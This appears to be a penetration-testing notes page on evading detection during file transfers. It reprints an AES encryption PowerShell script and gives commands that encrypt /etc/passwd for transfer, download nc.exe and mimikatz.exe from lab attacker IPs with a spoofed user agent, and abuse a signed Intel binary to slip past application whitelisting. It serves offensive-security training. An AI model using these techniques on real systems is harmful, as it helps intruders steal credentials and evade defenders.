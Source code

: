 ```yaml
---
title: Evading detection in file transfers
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - evading detection
  - exploitation
  - file transfer technique
  - backdoors
---
```

# Evading detection in file transfers

Encrypting the data or files before a transfer is often necessary to prevent the data from being read if intercepted in transit.

## File Encryption on Windows: Invoke-AESEncryption.ps1

Download it from: https://www.powershellgallery.com/packages/DRTools/4.0.2.3/Content/Functions%5CInvoke-AESEncryption.ps1 Also, see the code snippet below.

```powershell
<#  
.SYNOPSIS  
Encryptes or Decrypts Strings or Byte-Arrays with AES  
   
.DESCRIPTION  
Takes a String or File and a Key and encrypts or decrypts it with AES256 (CBC)  
   
.PARAMETER Mode  
Encryption or Decryption Mode  
   
.PARAMETER Key  
Key used to encrypt or decrypt  
   
.PARAMETER Text  
String value to encrypt or decrypt  
   
.PARAMETER Path  
Filepath for file to encrypt or decrypt  
   
.EXAMPLE  
Invoke-AESEncryption -Mode Encrypt -Key "p@ssw0rd" -Text "Secret Text"  
   
Description  
-----------  
Encrypts the string "Secret Test" and outputs a Base64 encoded cipher text.  
   
.EXAMPLE  
Invoke-AESEncryption -Mode Decrypt -Key "p@ssw0rd" -Text "LtxcRelxrDLrDB9rBD6JrfX/czKjZ2CUJkrg++kAMfs="  
   
Description  
-----------  
Decrypts the Base64 encoded string "LtxcRelxrDLrDB9rBD6JrfX/czKjZ2CUJkrg++kAMfs=" and outputs plain text.  
   
.EXAMPLE  
Invoke-AESEncryption -Mode Encrypt -Key "p@ssw0rd" -Path file.bin  
   
Description  
-----------  
Encrypts the file "file.bin" and outputs an encrypted file "file.bin.aes"  
   
.EXAMPLE  
Invoke-AESEncryption -Mode Encrypt -Key "p@ssw0rd" -Path file.bin.aes  
   
Description  
-----------  
Decrypts the file "file.bin.aes" and outputs an encrypted file "file.bin"  
#>  
function Invoke-AESEncryption {  
    [CmdletBinding()]  
    [OutputType([string])]  
    Param  
    (  
        [Parameter(Mandatory = $true)]  
        [ValidateSet('Encrypt', 'Decrypt')]  
        [String]$Mode,  
  
        [Parameter(Mandatory = $true)]  
        [String]$Key,  
  
        [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]  
        [String]$Text,  
  
        [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]  
        [String]$Path  
    )  
  
    Begin {  
        $shaManaged = New-Object System.Security.Cryptography.SHA256Managed  
        $aesManaged = New-Object System.Security.Cryptography.AesManaged  
        $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC  
        $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros  
        $aesManaged.BlockSize = 128  
        $aesManaged.KeySize = 256  
    }  
  
    Process {  
        $aesManaged.Key = $shaManaged.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))  
  
        switch ($Mode) {  
            'Encrypt' {  
                if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}  
                  
                if ($Path) {  
                    $File = Get-Item -Path $Path -ErrorAction SilentlyContinue  
                    if (!$File.FullName) {  
                        Write-Error -Message "File not found!"  
                        break  
                    }  
                    $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)  
                    $outPath = $File.FullName + ".aes"  
                }  
  
                $encryptor = $aesManaged.CreateEncryptor()  
                $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)  
                $encryptedBytes = $aesManaged.IV + $encryptedBytes  
                $aesManaged.Dispose()  
  
                if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}  
                  
                if ($Path) {  
                    [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)  
                    (Get-Item $outPath).LastWriteTime = $File.LastWriteTime  
                    return "File encrypted to $outPath"  
                }  
            }  
  
            'Decrypt' {  
                if ($Text) {$cipherBytes = [System.Convert]::FromBase64String($Text)}  
                  
                if ($Path) {  
                    $File = Get-Item -Path $Path -ErrorAction SilentlyContinue  
                    if (!$File.FullName) {  
                        Write-Error -Message "File not found!"  
                        break  
                    }  
                    $cipherBytes = [System.IO.File]::ReadAllBytes($File.FullName)  
                    $outPath = $File.FullName -replace ".aes"  
                }  
  
                $aesManaged.IV = $cipherBytes[0..15]  
                $decryptor = $aesManaged.CreateDecryptor()  
                $decryptedBytes = $decryptor.TransformFinalBlock($cipherBytes, 16, $cipherBytes.Length - 16)  
                $aesManaged.Dispose()  
  
                if ($Text) {return [System.Text.Encoding]::UTF8.GetString($decryptedBytes).Trim([char]0)}  
                  
                if ($Path) {  
                    [System.IO.File]::WriteAllBytes($outPath, $decryptedBytes)  
                    (Get-Item $outPath).LastWriteTime = $File.LastWriteTime  
                    return "File decrypted to $outPath"  
                }  
            }  
        }  
    }  
  
    End {  
        $shaManaged.Dispose()  
        $aesManaged.Dispose()  
    }  
}
```

After the script has been transferred, it only needs to be imported as a module, as shown below.

```powershell-session
Import-Module .\Invoke-AESEncryption.ps1
```

This command creates an encrypted file with the same name as the encrypted file but with the extension "`.aes`."

```powershell-session
Invoke-AESEncryption -Mode Encrypt -Key "p4ssw0rd" -Path .\scan-results.txt
```


## File Encryption on Linux: 

### Encrypting /etc/passwd with openssl

```shell-session
openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc
```

**Decrypt passwd.enc with openssl**

```shell-session
openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd
```


## Changing User Agent

**Request with Invoke-WebRequest and Chrome User agent**

Listing user agents: 

```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

```txt
Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
```


Using Chrome User Agent:

```powershell
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"
```

```shell-session
nc -lvnp 80
```


## LOLBAS / GTFOBins

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries." An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems and contains functionality to download configuration files periodically. This download functionality can be invoked as follows:

```powershell
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```


Such a binary might be permitted to run by application whitelisting and be excluded from alerting.